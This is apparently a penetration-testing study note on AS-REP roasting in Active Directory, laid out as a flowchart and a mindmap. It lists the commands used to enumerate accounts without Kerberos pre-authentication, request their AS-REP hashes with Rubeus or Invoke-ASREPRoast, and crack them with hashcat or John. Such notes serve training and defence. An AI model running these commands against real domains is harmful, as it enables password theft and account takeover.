


# AS-REP Roasting — Accounts Without Kerberos Pre-Authentication

## Attack Path

```mermaid
flowchart TD
    START(["👤 Any Domain User\n(low privilege)"])

    subgraph enum["Phase 1: Find Vulnerable Accounts"]
        E1["Enumerate accounts with\nDONT_REQUIRE_PREAUTH flag\nGet-DomainUser -PreauthNotRequired\nGet-ADUser -Filter {DoesNotRequirePreAuth -eq $true}"]
        E2["OR: BloodHound query\nMATCH (u:User {dontreqpreauth:true}) RETURN u"]
        E3["Accounts found with flag set\n(misconfiguration / intentional)"]
    end

    subgraph asrep["Phase 2: Request AS-REP Hash"]
        A1["No pre-auth required =\nKDC returns AS-REP\nencrypted with account's key\nwithout verifying identity first"]
        A2["Request AS-REP for target\nInvoke-ASREPRoast -Verbose\nOR Get-ASREPHash -UserName targetuser\n-Domain dollarcorp.moneycorp.local"]
        A3["Rubeus.exe asreproast\n/user:targetuser\n/format:hashcat\n/outfile:asrep.txt"]
        A4["Hash format captured:\n$krb5asrep$23$targetuser@domain:..."]
    end

    subgraph crack["Phase 3: Crack Hash Offline"]
        C1["Crack with Hashcat\nhashcat -m 18200 asrep.txt rockyou.txt\nhashcat -m 18200 asrep.txt --rules best64.rule"]
        C2["Crack with John\njohn --wordlist=rockyou.txt asrep.txt\njohn --format=krb5asrep asrep.txt"]
        C3["✅ Plaintext password recovered"]
    end

    subgraph use["Phase 4: Use Compromised Account"]
        U1["If low-priv account:\nLateral movement, access shares\nFurther enumeration"]
        U2["If high-priv account (DA/admin):\nDirect escalation\nOverPass-the-Hash with new creds"]
        U3["If service account with SPN:\nAlso Kerberoastable\nDouble attack surface"]
    end

    subgraph diff["AS-REP vs Kerberoasting"]
        D1["Kerberoasting:\nNeed valid domain creds\nTarget accounts WITH SPN\nCrack TGS (RC4)"]
        D2["AS-REP Roasting:\nNeed NO creds (unauthenticated)\nTarget accounts WITHOUT preauth\nCrack AS-REP (RC4)"]
    end

    START --> E1 & E2 --> E3
    E3 --> A1 --> A2 & A3 --> A4
    A4 --> C1 & C2 --> C3
    C3 --> U1 & U2 & U3
    D1 ~~~ D2

    style START fill:#4CAF50,color:#fff
    style C3 fill:#f44336,color:#fff
    style U2 fill:#f44336,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((AS-REP Roasting))
    Vulnerability
      DONT_REQUIRE_PREAUTH flag
        Misconfigured accounts
        No identity verification
        KDC returns AS-REP freely
    Enumeration
      PowerView
        Get-DomainUser -PreauthNotRequired
      ADModule
        DoesNotRequirePreAuth filter
      BloodHound
        dontreqpreauth property
    Attack Tools
      Invoke-ASREPRoast
        PowerSploit module
        Returns hashcat format
      Rubeus asreproast
        /user specific target
        /format hashcat
        /outfile save hashes
      Impacket (Linux)
        GetNPUsers.py
        No creds needed
    Hash Cracking
      Hashcat -m 18200
        krb5asrep format
        rockyou.txt wordlist
        Rules: best64
      John the Ripper
        --format=krb5asrep
    Compared to Kerberoasting
      AS-REP
        No creds needed
        Pre-auth disabled accounts
        RC4 encrypted
      Kerberoast
        Needs domain creds
        SPN accounts
        TGS ticket
```
